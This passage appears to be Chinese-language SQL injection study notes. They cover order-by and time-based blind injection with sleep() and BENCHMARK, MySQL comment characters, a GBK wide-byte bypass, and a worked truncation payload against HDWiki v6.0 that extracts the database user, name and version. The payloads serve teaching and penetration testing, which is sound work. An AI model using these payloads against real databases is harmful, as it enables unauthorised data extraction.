 - ##### 利用order by盲注

  ```sql
  mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
  +----+--------------+------------------------
  | id |    username  | password                   
  +----+--------------+------------------------
  |  1 | 2            | 5                         
  |  1 | admin        | 51b7a76d51e70b419f60d34 
  +----+----------- --+------------------------
  2 rows in set (0.00 sec)
      
  mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
  +-----+-----------+--------------------------
  |id   | username  | password                  
  +-----+-----------+--------------------------
  |  1  | admin     |51b7a76d51e70b419f60d3
  |  1  |    2      | 6                          
  +-----+-----------+--------------------------
  2 rows in set (0.01 sec)
  ```

#### 延时盲注

- 相对于bool盲注，就是把返回值0和1改为是否执行延时，能用其他方法就不使用延时。
- 一般格式if((bool),sleep(3),0)和or (case when (bool) then sleep(3) else 0 end)
- 两个函数：
- BENCHMARK(100000,MD5(1))
- sleep(5)
- BENCHMARK()用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源，推荐使用sleep()。

#### Mysql注释符

```sql
1. -- -
2. /* .... */
3. #
4. `
5. ;%00 
```

#### GBK绕过注入

- 在分号前加%df%27
- 示例：id=1%df%27 union select 1.2–+

#### 实例

以HDWiki v6.0 UTF8-20170209 前台sql注入为例，index.php?doc-create创建词条可以通过`aaaa……aa'` 81个字符，经过转义变成`aaaa……aa\'`82个字符，经过截断变成`aaaa……aa\`81个字符，将sql语句中的单引号转义，并且后面一个参数用户可控，产生了SQL注入

`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'`

`，concat(user(),0x7c,database(),0x7c,version()),1,1,#`
